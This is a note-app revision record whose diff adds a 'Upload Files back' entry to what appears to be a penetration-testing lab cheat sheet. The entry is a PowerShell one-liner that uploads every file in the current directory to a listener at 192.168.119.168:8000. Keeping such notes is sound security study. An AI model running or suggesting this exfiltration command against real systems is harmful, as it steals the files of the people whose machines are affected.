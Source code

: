 id: 1ae636cafbc04e16b5232089bf1714de
parent_id: 24301b97268449e4899fbfba9417579f
item_type: 1
item_id: 9edf38372dec441196b29dc795906939
item_updated_time: 1650594922924
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ps1')\\\"\\\n\\\n\"],[1,\"Upload Files back\\\n\\\n> foreach($item in (dir)){ (New-Object System.Net.WebClient).UploadFile('http://192.168.119.168:8000/', $item.FullName)}\\\n\\\n\"],[0,\"# On Kal\"]],\"start1\":462,\"start2\":462,\"length1\":16,\"length2\":157}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-22T02:36:57.659Z
created_time: 2022-04-22T02:36:57.659Z
type_: 13